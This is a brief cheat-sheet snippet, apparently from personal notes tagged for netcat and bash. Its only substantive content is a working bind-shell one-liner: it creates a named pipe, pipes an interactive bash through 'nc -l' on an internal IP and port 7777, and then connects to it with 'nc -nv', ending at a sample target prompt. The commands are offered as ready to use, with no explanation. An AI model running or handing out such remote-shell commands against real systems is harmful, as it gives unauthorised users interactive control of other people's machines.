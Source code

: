 [[nc]] #bash
#shell
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

```shell
nc -nv 10.129.41.200 7777

Target@server:~$  
```